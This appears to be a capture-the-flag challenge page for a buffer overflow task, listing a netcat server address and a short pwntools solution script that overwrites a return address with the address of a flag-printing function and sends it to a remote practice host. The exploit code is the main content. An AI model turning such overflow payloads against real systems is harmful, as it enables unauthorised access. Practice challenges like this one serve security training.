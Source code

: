 #### Goals
 * Try to find the flag

#### Server Address
 * nc pwn.sniperoj.com 20002

#### Solution
```python
#!/usr/bin/env python

from pwn import *

# Io = process("./bof")
Io = remote("www.sniperoj.cn", 30000)
cat_flag_addr = p64(0x0000000000400616)
payload = cat_flag_addr * 4
Io.send(payload)
Io.interactive()
```

#### Writeups
 * TODO

